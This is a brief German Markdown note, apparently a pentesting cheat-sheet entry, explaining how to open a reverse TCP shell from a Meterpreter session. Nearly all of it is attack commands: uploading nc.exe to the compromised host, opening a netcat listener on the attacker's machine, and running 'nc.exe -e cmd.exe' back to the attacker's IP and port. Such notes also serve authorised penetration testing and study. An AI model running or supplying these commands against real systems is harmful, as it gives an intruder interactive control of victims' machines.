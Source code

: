 # Metasploit

## Mit Metasploit Reverse TCP-Shell erstellen

Mit `lcd` den lokalen Ordner wechseln, dort wo nc.exe liegt.
Anschließend mit dem Meterpreter in einen beschreibaren Ordner wechseln und mit `upload nc.exe` nc hochladen.
Auf der lokalen Maschine mit  `nc -lvp %port%` einen Listener öffnen.
Beim Remoterechner muss nun folgendes im Ordner, wo nc hochgeladen wurde, ausgeführt werden `execute -f nc.exe -a "-e cmd.exe %LocalIP% %port%"`
